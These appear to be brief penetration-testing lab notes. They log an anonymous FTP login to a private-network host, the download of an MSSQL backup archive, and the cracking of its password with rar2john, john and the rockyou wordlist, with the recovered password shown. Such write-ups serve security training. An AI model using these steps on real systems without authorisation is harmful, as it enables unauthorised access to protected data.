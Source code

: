 #### - Typed "ftp 192.168.114.70 -p 1221" used anonymous as user and anonymous as password and found the following files:

![](Pasted%20image%2020221020003245.png)

#### - Typed "mget MSSQL_BAK.rar" to download the file to my kali machine

#### - Attempted to open the "MSSQL_BACK.rar" file but it needed a password

#### - Typed "rar2john MSSQL_BAK.rar > back.hash" to retreive the rar file password hashand input it into the back.hash file

#### - Typed "john back.hash --wordlist=/usr/share/wordlists/rockyou.txt" and found password "letmeinplease"
![](Pasted%20image%2020221020003414.png)

#### - Typed "unrar e MSSQL_BAK.rar -p " and entered password "letmeinplease"

![](Pasted%20image%2020221020003518.png)